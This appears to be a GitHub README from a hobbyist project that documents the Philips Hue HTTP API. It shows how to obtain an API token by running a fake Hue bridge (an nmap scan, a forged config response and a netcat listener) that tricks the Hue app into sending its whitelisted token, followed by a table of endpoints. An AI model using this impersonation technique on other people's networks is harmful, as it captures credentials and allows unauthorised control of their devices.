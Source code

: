 hued - (?:ab)using the Hue HTTP API
====

- [writeup](#writeup)
- [API methods](#api-methods)
- [notes](#notes)

# writeup

want to talk to your [Phillips Hue](http://www2.meethue.com/en-us/) lights directly through an HTTP API without registering an application?

to turn off the currently-in-use lighting scheme:

```
~/hue $ curl -X PUT http://<hue hub>/api/<token>/groups/0/action -d '{"on":true}'
[{"success":{"/groups/0/action/on":true}}]
```

all you need are:
  - the IP for the Hue Hub plugged in to your network
  - a 'whitelisted' token to talk to the API

finding the IP should be pretty straight forward, but the nmap output is not very specific:
```
~/hue $ nmap 192.168.42.0/24
...
Nmap scan report for 192.168.42.66
Host is up (0.0063s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped
...
```

the Hue hub uses DHCP by default, so it likely won't be at that address for you, but you get the idea.

now, you need to get a token. to do that, trick the Hue app on your phone/tablet/Echo to send it to us.

  - stand up a webserver listening for GET of `http://0.0.0.0:80/api/config` on the same network (0/24) your phone/tablet/Echo is on
  - `api/config` needs to be JSON that a Hue hub would return (sample included in repo)
  - from your phone/tablet/Echo, select `Settings->Find Bridge->Search`
    * this works intermittently, as some times the app found the real hub and the imposter, other times it would only find the real hub, but would mostly end up with a 'Specify IP' button
  - wait for the app to query your imposter, and you'll have a token

by the numbers:

```
~/hue $ cat api/config
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Expires: Mon, 1 Aug 2011 09:00:00 GMT
Connection: close
Access-Control-Max-Age: 3600
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE, HEAD
Access-Control-Allow-Headers: Content-Type
Content-type: application/json

{"name": "Philips hue","swversion": "01032318","apiversion": "1.13.0","mac": "DE:AD:BE:EF:CA:FE","bridgeid": "001788FFFECAFE","factorynew": false,"replacesbridgeid": null,"modelid": "BSB001"}
~/hue $ while true; do sudo nc -l 80 < api/config; done
...
GET /api/config HTTP/1.1
Host: 192.168.42.83
Accept: */*
Accept-Language: en-us
Connection: keep-alive
Accept-Encoding: gzip, deflate
User-Agent: Hue/1 CFNetwork/758.4.3 Darwin/15.5.0

GET /api/eKpsfhR9K1u32/config HTTP/1.1
Host: 192.168.42.83
Accept: */*
Accept-Language: en-us
Connection: keep-alive
Accept-Encoding: gzip, deflate
User-Agent: Hue/1 CFNetwork/758.4.3 Darwin/15.5.0

GET /api/eKpsfhR9K1u32 HTTP/1.1
Host: 192.168.42.83
Accept: */*
Accept-Language: en-us
Connection: keep-alive
Accept-Encoding: gzip, deflate
User-Agent: Hue/1 CFNetwork/758.4.3 Darwin/15.5.0
```

and now we have our token, `eKpsfhR9K1u32`. with that, we can call (all?) API methods

# API methods

api|description|GET|PUT
----|-----------|---------------|----------------
`/config/`|set and query existing settings|without token for unauthenticated, basic registration information, with token for light/device/schedule/sensor configuration|JSON matching schema validation|
`/lights/`|scan and query existing lights|JSON scan status|empty body to start a scan
`/sensors/`|scan and query existing sensors|JSON scan status|empty body to start a scan
`/scenes/`|set and query existing scenes|JSON scene list| /`<uuid>/lights/<id>/state => {"on":true,"xy":[0.5804,0.3995],"bri":253}`
`/schedules/`|set and query existing schedules/timers|JSON schedules/timers|`/<uuid> => {"name":"Alarm","autodelete":false,"localtime":"2016-06-20T16:20:00","description":"giants","status":"enabled","command":{"address":"/api/eKpsfhR9K1u32/groups/0/action","body":{"scene":"f55e38250-on-0"},"method":"PUT"}}`
`/groups/`|set and query scene (?) groupings|empty JSON|`/<id>/action => {"scene":"2fc89fcdb-on-0"}`

a few example request/responses:

```json
# http://192.168.42.66/api/eKpsfhR9K1u32/scenes
{
  "f4750b0cf-off-5": {
    "name": "HIDDEN foff 1452936620159",
    "lights": [
      "1",
      "2",
      "3",
      "4",
      "5",
      "6",
      "7",
      "8",
      "9",
      "10"
    ],
    "owner": "eKpsfhR9K1u32",
    "recycle": true,
    "locked": true,
    "appdata": {

    },
    "picture": "",
    "lastupdated": "2016-01-16T09:30:21",
    "version": 1
  },
  ...
}  
```

# notes

all versions tested are the latest available as of 2016/06/19

component|version|notes
---------|-------|-----
Phillips Hue Hub|5.23.1.13452|
Hue mobile App|1.12.1.0|same version reported on both Android and Apple devices

TODO
* dig further in api/\<token\>/config
  * determine how the hashes are generated. not concatenation of create time / name in any obvious way. different devices seem to come up with hashes in different ways. older iPhone/iPad apps were [A-Z0-9]{16}, while Android ones seem to always have been [A-Z]{32}
* write a client library/binding? or at least some abstraction
* determine the truly necessary pieces of the imposter response, think it really only needs content-type and minimal JSON
* work on SSDP discovery, see [description.xml](description.xml)
